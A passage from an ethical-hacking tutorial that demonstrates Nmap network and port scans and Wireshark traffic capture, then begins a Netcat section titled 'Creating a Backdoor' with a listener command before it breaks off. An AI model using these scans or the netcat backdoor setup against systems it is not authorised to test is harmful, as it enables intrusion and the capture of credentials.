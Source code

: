 By understanding protocols, you can spot data leaks or insecure communications.


---

Step 4: Tools for Ethical Hacking

To test networks, ethical hackers use tools to scan, capture, and analyze data. Here are the most essential ones:

1. Nmap (Network Mapper)

Nmap helps you map a network and find vulnerabilities.

Scan a network for devices:

```
nmap -sn 192.168.1.0/24

```

This lists all devices on the network.

Scan a device for open ports:

```
nmap -A <IP Address>

```
This tells you what services and operating systems the device is running.



---


2. Wireshark

Wireshark captures network traffic and lets you see what’s being sent.

Capture all network traffic.

Use filters to focus on specific types, like HTTP or DNS.


Why Use It?
You can see passwords, usernames, or sensitive data if the communication isn’t encrypted.


---

3. Netcat (nc)

Netcat is like a Swiss Army knife for connecting to devices and sending data.

Practical Example: Creating a Backdoor

1. Set up a listener on your machine:

```
nc -lvp 4444

```

2. Connect to it from another device:
